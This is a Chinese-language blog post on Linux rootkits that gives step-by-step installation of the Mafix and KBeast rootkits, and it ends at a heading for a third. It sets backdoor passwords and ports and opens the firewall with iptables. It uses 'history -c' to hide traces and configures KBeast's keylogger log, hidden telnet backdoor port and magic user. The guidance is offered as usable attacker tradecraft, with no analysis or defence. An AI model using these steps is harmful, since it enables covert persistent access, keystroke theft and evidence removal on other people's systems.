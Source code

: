 ```yaml
---
layout: post
title: linux rootkit
categories: linux
tag: linux
---
```

# linux rootkit
## Mafix
它轻量级的应用层rootkit,提供了一个ssh连接，但隐藏效果不好。  
1. tar zxvf mafix_rootkit.tar.gz 解压。进入目录并用root权限运行。
2. ./root pass port (如: ./root 123456 8822 那么下次连接的时候只需用putty连接它的8822端口，用户名是root，密码为123456)
3. 安装完成后会自动删除目录，为了隐蔽，用 history -c 清除下命令就行

过防火墙
可以直接在系统里加个iptables规则就可以了。  
`iptables -t filter -A INPUT -p all --dport 22222 -j ACCEPT`

---

## Kbeast rootkit
内核级rootkit，功能相当强大，能反向连接，还能键盘记录，而且适用范围很广~
安装脚本支持的内核版本有2.6.16, 2.6.18, 2.6.32, and 2.6.35。
1. tar zxvf ipsecs-kbeast-v1.tar.gz
2. vi config.h
```
#define _LOGFILE_ “acctlog”          键盘记录
#define _HIDE_PORT_ 13377            后门telnet端口
#define _RPASSWORD_ “123456″         后门密码
#define _MAGIC_NAME_ “admin”         后门用户（这里特别注意必须是具有sh/bash权限的用户）
```
3. - ./setup build 0（适用于kernel 2.6.18）
   - ./setup build （适用于kernel 2.6.32，也应该能用于2.6.24或者更多）

4. tips 如果`Compiling Kernel Module : [NOT OK]``那就是这台服务器缺少`kernel-header`  

  可尝试`apt-get install kernel-headers-$(uname -r) ls -d /lib/modules/$(uname -r)/build`


---

## rootkit-ddrk
